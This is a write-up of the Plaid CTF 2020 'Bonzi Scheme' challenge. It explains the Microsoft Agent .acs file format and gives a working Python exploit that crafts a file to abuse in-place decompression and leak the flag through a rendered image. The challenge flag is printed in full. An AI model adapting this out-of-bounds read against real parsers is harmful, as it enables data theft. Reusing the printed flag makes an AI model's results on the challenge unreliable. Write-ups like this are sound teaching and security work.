



# Bonzi Scheme (Misc)
Part of the Plaid CTF 2020 (https://play.plaidctf.com/)


Another amazing fact: rapidly moving around the mouse in Firefox while the page is opened leads to around 30% increased CPU consumption due to all the moving emojis being rendered.


The Bonzi Scheme challenge consists of a python flask application which, apart from telling us amazing facts, allows us to render our own friends!

When clicking on "Download a bonz friend Now - FREE!!!!!", we get a `.acs` file, which is a file format used by [Microsoft Agent](https://en.wikipedia.org/wiki/Microsoft_Agent). The challenge description included a link to this (inofficial) documentation of the ACS format and other formats used by Microsoft Agent, written by Remy Lebeau: http://www.lebeausoftware.org/downloadfile.aspx?ID=25001fc7-18e9-49a4-90dc-21e8ff46aa1d (The specification will be frequently referenced throughout this writeup as to not copy and paste everything in here).

The server includes a parser for the `.acs`-format, unfortunately most of the parser source code is removed from the archive we were able to download. Most of the relevant stuff happens in the `/buddy` route below.

```
data = request.files["acsfile"].read()

# Bonz will dress up your buddy by putting the flag in the character description!
data = replace_description(data, app.config["FLAG"])

filename = f"{uuid.uuid4()}.bmp"

header = ACSHeader(data, 0)
character = ACSCharacterInfo(data, header.loc_acscharacter.offset)
palette = character.palette
idx_transparent = character.idx_transparent

image_info_list = ACSList(data, header.loc_acsimage.offset, ACSImageInfo)
if form.imgidx.data < 0 or form.imgidx.data >= len(image_info_list):
    return render_template("buddy.html", form=form, error_message={"imgidx":["Index out of bounds"]})

# Bonz will get the info for your compressed image
image_info = ImageInfo(data, image_info_list[form.imgidx.data].loc_image.offset)

# Bonz's first decompress algorithm - use the file data as a buffer
decompress_data = image_info.decompress_img_in_place()

# Bonz gibs image
image_info.get_image(decompress_data, os.path.join(app.config["UPLOAD_FOLDER"], filename), palette, idx_transparent)
```

The `replace_description` function looks as follows:
```
def replace_description(data, new_description):
    header = ACSHeader(data, 0)
    character = ACSCharacterInfo(data, header.loc_acscharacter.offset)

    localized_info = ACSList(data, character.loc_localizedinfo.offset, LocalizedInfo)
    to_replace = localized_info[0].desc
    new_acs = replace_data(data, create_acs_string(new_description), to_replace.get_offset(), to_replace.get_size())

    return new_acs
```

We will take a look at the format of the ACS file and `ACSCharacterInfo` in particular in a moment, just remember that we are interested in the contents of the `localized_info` field.

The favorite number we can specify when rendering the ACS file is actually the index of the image we want to render. (I hope Bonz will forgive me for lying about my favorite number during the development of this exploit)

If the index is valid, the image data is decompressed and passed to the `get_image` function, together with the pallete of this character and the index of the transparent color (which actually is never used as far as I can tell).

```
def get_image(self, data, filename, color_table, idx_transparent):
    lSrcScanBytes = (self.width + 3) & 0xfc
    # Each is RGBQUAD (4 bytes: R,G,B,Reserved)
    lTrgScanBytes = self.width * 4
    image_data = np.zeros((self.height,self.width,3), dtype=np.uint8)

    count = 0
    for y in range(self.height):
        lSrcNdx = y * self.width

        for x in range(self.width):
            try:
                color = color_table[data[lSrcNdx]].color
            except Exception as e:
                # TODO: why not just exit? why catch exception?
                continue
            image_data[self.height-1-y,x] = [color.red, color.green, color.blue]
            lSrcNdx += 1

    pic = Image.fromarray(image_data)
    pic.save(filename)
```

For each pixel in the image, we look up the color in the palette and set the RGB values in the output image accordingly. Whenever an out of bounds error eccors, either because there is not enough data for every pixel (i.e. `self.height * self.width` does not match the size of the decompressed data) or there is no entry in the palette with this index, we simply skip the pixel instead of crashing the server, which comes in handy later (thanks Bonz!).

## Parsing the ACS file
We can download a valid `.acs`-file from the service with which we can test our parser and which we will later modify to create the exploit payload.

### ACSHeader and ACSLocator
The file starts with the header, which consists of a magic number (`0xABCDABC3`) and four `ACSLocator`s, which are basically 4 byte pointers with another 4 bytes to containing the size of the area being pointed to. While there are some rudimentary sanity checks regarding the size field of the `ACSLocator`, it is generally not needed, since the size of the data being pointed to is either fixed and thus known beforehand, or can simply be calculated from the content (for example lists include the length of the list in the first 4 bytes.).

These four pointers point to `ACSCharacterInfo`, `ACSAnimationInfo`, `ACSImageInfo` and `ACSAudioInfo`, of which only `ACSCharacterInfo` and `ACSImageInfo` are of interest to us.

### ACSCharacterInfo
The `ACSCharacterInfo` is basically a struct, which contains some general information about the character in the file. We focus only on the localized info list and the color palette, check out the specification for a full list of attributes.

The localized info field is a `ACSLocator` pointing to a List of `LOCALIZEDINFO` entries. The palette field points to a list of `RGBQuad` entries.

### Lists
A list consists of a 1, 2 or 4 byte value denoting the number of elements in the list (the length of this value depends on the type of the list, it is 2 bytes for the localized info list and 4 bytes for the palette color list), followed by the entries.

When the list contains elements of a variable size (e.g. strings), you have to calculate the size of the first element to find the offset where the second element starts.

### ACSLocalizedInfo
The localized info struct contains a 2 byte language id followed by 3 strings, which are the character name, character description and character extra data. The `/buddy` endpoint of the webservice replaces the description of the first entry in the localized info list with the flag.

### ACSString
A string consists of a 4 byte length field followed by the 2-byte characters. Thus an empty string is 4 bytes in size and a string with n characters is 4+2*n bytes in size.

Then the webservice replaces the description with a flag of a different length, the offset of the following entries in the file change, but the `replace_data` function deals with updating all Locators accordingly. However, we should keep this in mind during the exploit development, since it might break our exploit if we work with absolute/relative offsets in places which are not updated by the `replace_data` function.

### RGBQuad
This struct consists of 4 bytes, 3 bytes for the RGB values respectively and 1 reserved byte which is always 0.

### ACSImageInfo
The ACSImageInfo struct consists of an ACSLocator pointing to the actual image data and a 4 byte checksum, which is not documented and apparently also not implemented on the server.

The interesting fields in the image data are the width and height which are 2 bytes each, the compression flag which denotes whether the image data is compressed, and a data block containing the image data. A data block is similar to a string, it simply contains a 4 byte size field and then the correct number of arbitrary bytes afterwards.

While we would rather not have to deal with the decompression algorithm, the server always tries to decompress the data and returns an error if we try to render uncompressed data.

### (De)compression algorithm
I am not going to cover the complete details of the decompression algorithm in depth (I am not actually sure if I understood everything correctly, at least my implementation always caused errors in some cases which are present in the example `.acs` file but not included in the compression example from the specification), instead I am just giving a quick overview, enough to understand the exploit in the next section.

An output buffer must be allocated based on the size of the output (calculated from the width and height of the image). After stripping a one byte header, the compressed data is interpreted as a stream of bits. A `0` bit indicates that the following `8` bits should be interpreted as one byte that is written to the location pointed to by the pointer, which is increased by one afterwards. A sequence starting with a `1` bit indicates that some data which was already written to the output buffer should be repeated. This is done by specifiying an offset relative to the current pointer and the length. The offset is always a positive number which is deducted from the pointer. The data being read during the handling of one compressed sequence might overlap with the data being written during the same sequence, so the bytes should be written one-by-one instead of copying the whole block at once.

There is a special bit sequence which indicates that the end of the compressed stream has been reached, thus the size of the compressed data must not necessarily match the size indicated in the Datablock struct.

## Exploit Development
First lets take a quick look at the layout of the example `bonz.acs`.

The total file size is `5'249'795`. The locators from the header look as follows:
```
ACSCharacterInfo pointer: 5'246'214
ACSCharacterInfo size:        3'581
ACSAnimationInfo pointer: 5'225'930
ACSAnimationInfo size:        4'976
ACSImageInfo pointer:     5'230'906
ACSImageInfo size:           15'040
ACSAudioInfo pointer:     5'245'946
ACSAudioInfo size:              268
```

Note that the `ACSImageInfo` pointer is pointing to the list of `ACSImageInfo` structs, which in turn point to the actual image data located somewhere else.

```
Image count:        1'253
First image pos:   71'060
Last image pos: 4'743'033
```

The flag is located here (note that the size might change when the flag is placed in the description):
```
Location of localized_info: 5'249'423
Size of localized_info:           372
```

Since we are only able to render images, we would like to somehow include the flag in one of the images. Since the last image is located at the end closer to the flag, we are going to focus on the last image for now. Here are some fields from the image:

```
Last image width:              200
Last image height:             160
Last image compression flag:     1
Last image datablock length: 1'499
```

Since the decompression happens in-place, we had the idea to modify the dimensions of the image in such a way that the contents of the flag would be located within the output buffer. Unfortunately the `get_image` function only works on the output of the `decompress_img_in_place`-function. The size of the output depends on the size of the decompressed data and all array accesses beyond that would result in an out-of-bounds exception, thus leaving the pixels black.

Therefore we somehow need to include the flag in the output of the `decompress` function. Since we are not able to render uncompressed images and the format of the localized info struct would not be valid compressed data, we can not place the localized info struct directly in the datablock of the image.

Instead we need to utilize the decompression algorithm. Remember that we are able to specify an offset from the current pointer in the output buffer from where we want to copy data. Usually this offset should still point into the output buffer, but what if we start with a negative offset of `2'000` and then copy the next `2'000` bytes into our output buffer? While we do not know where exactly our output buffer is located, the fact that the decompression algorithm works in-place suggests that we might be able to leak information.

Since we can only read values before the output buffer, we must place the image immediately after the localized info. Luckily for us the localized info is lcoated directly at the end of the file, so we can simply append a new list with one image to the end of the file and update the pointer in the header.

To make decoding the output image easier, we will also update the palette data such that the RGB values of the color at index i are (i,i,i). This means that any of the color values of the pixel equate the value of the byte which we read during the decompression step.

The final exploits looks like this (the complete source code is available in the `2020_plaid_ctf_bonzi_scheme` directory):
```
def parse(data):
    header = ACSHeader(data, 0)

    character = ACSCharacterInfo(data, header.loc_acscharacter.offset)

    # convert the input data to a bytearray to allow index assignments
    abc = bytearray(data)

    # this is the original ACSImageInfo list pointer
    orig_pointer = int.from_bytes(data[20:24], BO)

    # update the ACSImageInfo pointer to point to the end of the file
    abc[20:24] = len(data).to_bytes(4, byteorder=BO)

    # set the size of our new list to be one
    abc += (1).to_bytes(4, byteorder=BO)

    # copy the first entry of the list
    abc += data[orig_pointer+4:orig_pointer+16]

    # this is the pointer to the original first image in the list
    orig_img_pointer = ifb(abc[-12:-8])

    # set the pointer in the ACSImageInfo struct to the end of the file
    list_len = len(abc)
    abc[-12:-8] = list_len.to_bytes(4, byteorder=BO)

    # copy 500kB from the original image so our original image is guaranteed
    # to be complete (although 500kB is way more than necessary)
    new_img_pointer = len(abc)
    abc += data[orig_img_pointer:orig_img_pointer+500000]

    # update the size in the ACSLocator in the header, since this is checked
    # on the server to be within the boundaries of the file
    abc[24:28] = (len(abc) - len(data)).to_bytes(4, byteorder=BO)

    # insert the payload in the newly inserted image
    payload = b'\x00@\x00\x04\x10\xd0\x90\x80B\xed\x98\x01\xb7\xfb\x9f\xff\xfb\xff\xff\xff\xff\xff\xff'
    for (ind, dat) in enumerate(payload):
        abc[new_img_pointer + 4 + 6 + ind] = dat

    # overwrite the palette information (after manually verifying that the
    # palette list holds 256 entries)
    for ind in range(256):
        x = character.palette_offset + 6 + ind * 4
        abc[x] = ind
        abc[x+1] = ind
        abc[x+2] = ind

    with open('exploit.acs', 'wb') as of:
        # convert the byte array to a byte string
        of.write(bytes(abc))
```

This yields the following output image:



The following script parses the image and outputs all printable ASCII characters:
```
from PIL import Image
import sys

fn = sys.argv[1]

img = Image.open(fn)
out = ""
for p in img.getdata():
    assert p[0] == p[1] and p[0] == p[2]
    c = p[0]
    if c < 32 or c >= 128:
        continue
    out += chr(c)
print(out)
```
Which yields the following:
```
LE1_24IDLE1_8IDLE1_26IDLE1_14IDLE1_25IDLE1_7IDE1_3IDLE1_5IDLE1_6IDLE1_4IDLE1_4 (2)IDLE1_5 (2)IDLE1_13IDLE1_12IDLE1_21ID25IDLE1_1 (2)IDLE1_1 (3)IDLE1_9 (2)IDLE1_9 (3)IDLINGLEVEL2IDLE1_1IDLE1_9IDLIDLE1_13IDLE1_14IDLE1_15IDLE1_4IDLE1_4 (2)IDLE1_5 (2)IDLE1_24IDLE1_12IDLE1_ ALERTIDLINGLEVEL1IDLE1_1IDLE1_3IDLE1_5IDLE1_6IDLE1_9IDLE1_11OVEDOWNBonzi:PCTF{th3_re4l_tr34sure_w4s_the_bonz_we_m4d3_along_the_w4y}3.0.7=P`WGHIDEMOVINGLEFTMOVELEFTMOVINGRIGHTMOVERIGHTMOVINGUPMOVEUPMOVINGDOWNM)IDLE1_9 (3)IDLINGLEVEL3IDLE3_1IDLE3_2SPEAKINGRESTPOSESHOWINGSHOWHIDINLE1_24IDLE1_8IDLE1_26IDLE1_14IDLE1_25IDLE1_7IDLE1_1 (2)IDLE1_1 (3)IDLE1_9 (2E1_3IDLE1_5IDLE1_6IDLE1_4IDLE1_4 (2)IDLE1_5 (2)IDLE1_13IDLE1_12IDLE1_21ID25IDLE1_1 (2)IDLE1_1 (3)IDLE1_9 (2)IDLE1_9 (3)IDLINGLEVEL2IDLE1_1IDLE1_9IDLIDLE1_13IDLE1_14IDLE1_15IDLE1_4IDLE1_4 (2)IDLE1_5 (2)IDLE1_24IDLE1_12IDLE1_ ALERTIDLINGLEVEL1IDLE1_1IDLE1_3IDLE1_5IDLE1_6IDLE1_9IDLE1_11OVEDOWNBonzi:PCTF{th3_re4l_tr34sure_w4s_the_bonz_we_m4d3_along_the_w4y}3.0.7=P`WGHIDEMOVINGLEFTMOVELEFTMOVINGRIGHTMOVERIGHTMOVINGUPMOVEUPMOVINGDOWNM)IDLE1_9 (3)IDLINGLEVEL3IDLE3_1IDLE3_2SPEAKINGRESTPOSESHOWINGSHOWHIDINLE1_24IDLE1_8IDLE1_26IDLE1_14IDLE1_25IDLE1_7IDLE1_1 (2)IDLE1_1 (3)IDLE1_9 (2E1_3IDLE1_5IDLE1_6IDLE1_4IDLE1_4 (2)IDLE1_5 (2)IDLE1_13IDLE1_12IDLE1_21ID25IDLE1_1 (2)IDLE1_1 (3)IDLE1_9 (2)IDLE1_9 (3)IDLINGLEVEL2IDLE1_1IDLE1_9IDLIDLE1_13IDLE1_14IDLE1_15IDLE1_4IDLE1_4 (2)IDLE1_5 (2)IDLE1_24IDLE1_12IDLE1_ ALERTIDLINGLEVEL1IDLE1_1IDLE1_3IDLE1_5IDLE1_6IDLE1_9IDLE1_11
```
Including the flag:
```
PCTF{th3_re4l_tr34sure_w4s_the_bonz_we_m4d3_along_the_w4y}
```

Note that the included source code includes a bunch of stuff I used for testing and that the `decompress` function is broken (and thus never called), but maybe you still find it useful.

I really enjoyed this challenge even though I didn't manage to properly parse the file either due to misunderstanding the specification or the file format not matching the specification (it is just fan made and not official after all). If somebody happens to have a working decompression implementation, I would be interested to see where my implementation is wrong in case the original challenge source code is not released (Note that my current implementation is most definitely wrong, but I did a lot of testing which is not visible in the resulting file).

Overall I rate the web design/memes (there were 25 different "facts") a perfect 5/7.
